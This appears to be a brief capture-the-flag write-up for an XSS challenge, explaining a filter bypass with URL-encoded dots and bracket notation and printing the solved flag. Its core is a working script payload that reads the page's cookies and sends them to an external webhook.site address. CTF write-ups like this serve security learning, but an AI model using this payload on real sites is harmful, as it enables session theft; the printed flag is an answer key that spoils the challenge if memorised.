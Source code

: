 # Solution
XSS at `/test?html`

Bypass dot character with `%2f` in URL and `document['cookie']`

```
test?html=<script>s=document['cookie'];fetch(`https://webhook%2esite/887722a2-39e8-4ac2-869e-64489b72347d/${s}`)</script>
```

Flag: `ping{cH4r53tt1ng_l1k3-4-Pr0-f211c8998abab934e26d4c2164dc5388}`


Solved by: yappare